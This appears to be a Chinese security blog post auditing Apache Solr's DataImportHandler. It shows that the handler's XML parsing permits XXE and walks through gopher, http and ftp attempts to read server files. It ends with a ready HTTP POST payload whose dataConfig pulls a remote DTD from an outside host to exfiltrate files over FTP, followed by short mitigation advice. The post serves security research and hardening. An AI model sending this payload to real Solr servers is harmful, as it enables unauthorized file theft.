









代码审计系列之Apache-solr框架

- - -

# 代码审计系列之Apache-solr框架

## Apache Solr框架简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。是一个独立的企业级搜索应用服务器，目前很多企业运用solr开源服务。原理大致是文档通过Http利用XML加到一个搜索集合中。

参考链接：[https://lucene.apache.org/solr/](https://lucene.apache.org/solr/)

## 前言

有几个朋友反映这个框架很多src都在使用，也是一个偶然的机会在对某厂商做测试的时候发现这个东西，使用范围还是挺广的，这一课我们就对它进行分析。

## 全版本目录列表/文件读取

根据官网给出来的默认配置如下web.xml

```plain
<filter-mapping>
<!--
    NOTE: When using multicore, /admin JSP URLs with a core specified
    such as /solr/coreName/admin/stats.jsp get forwarded by a
    RequestDispatcher to /solr/admin/stats.jsp with the specified core
    put into request scope keyed as "org.apache.solr.SolrCore".

    It is unnecessary, and potentially problematic, to have the SolrDispatchFilter
    configured to also filter on forwards.  Do not configure
    this dispatcher as <dispatcher>FORWARD</dispatcher>.
  -->

<filter-name>SolrRequestFilter</filter-name>
<url-pattern>/*</url-pattern>

</filter-mapping>
```

一般这一类框架都是基于filter编写的，分析一下SolrDispatchFilter.classes

在doFilter方法里面看到这一句函数调用

```plain
this.handleAdminRequest(req, response, handler2, solrReq);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119153937-e56a12ea-b69d-1.jpg)

跟进 RequestHandlerBase

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119153952-eeb0400e-b69d-1.jpg)

走到这里通过ide查看一下实现这个方法的类具体有哪些

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154004-f59f79f2-b69d-1.jpg)

这里重点看其中的一个实现类DataImportHandler.clasess

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154014-fbd360e0-b69d-1.jpg)  
看到这里可能有人会问你这个是debug模式的，仔细分析，是不是debug他都会调用this.importer.runCmd方法

DataImporter.classes

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154028-04259812-b69e-1.jpg)

看看这个loadDataConfig的具体实现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154035-0820db34-b69e-1.jpg)

从这里可以看出来采用的是DocumentBuilder进行了xml的解析，但是并没有做外部实体禁用操作

肯定是存在xxe漏洞，那么进一步测试

**1.采用gohper协议**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154046-0ea35248-b69e-1.jpg)

显示不支持此协议，可能与我环境上下文有关系

**2.采用http协议**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154054-137a11a8-b69e-1.jpg)

这里抛异常说是连接断开了，通过后台的日志我们可以发现http协议是支持的并且读到了目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154103-18d86dc0-b69e-1.jpg)

导致这个原因的代码如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154337-74dd4bb8-b69e-1.png)

这个位置有一个try catch操作，一旦发现有特殊字符回车换行之类的就抛异常，当发生异常时候this.config就是个null，系统就断开连接，一定程度，规避了这个问题。但是这个不是目的，目的就是要读到文件和目录。

**3.采用ftp协议**

构造一个ftp的payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154620-d6152bb2-b69e-1.png)

启动一个ftp服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154451-a104a2d6-b69e-1.png)

发送数据包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154112-1e101ef0-b69e-1.jpg)

成功返回

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119154120-2310cd82-b69e-1.jpg)

Payload：

```plain
POST/test1/dataimport HTTP/1.1
Host:localhost:8080
Content-Length:281
Accept:application/json,text/javascript,*/*; q=0.01
Origin: http://localhost:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
Accept-Language: zh-CN,zh;q=0.8
Cookie: k4la_2132_lastcheckfeed=1%7C1491801899; k4la_2132_nofavfid=1
Connection: close

command=full-import&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+root+%5B%3C!ENTITY+%25+remote+SYSTEM+%22http%3A%2F%2Fxxe.boomeye.com%2Fftp_xxe.xml%22%3E%25remote%3B%5D%3E
```

## 总结

1.  对于solr的应用程序，每一个实例的访问应该添加授权机制，防止信息泄露和未授权调用
2.  对于xml的解析，在官方没有给出修复版本的情况下，采用waf解决

原文链接： [https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw](https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw)
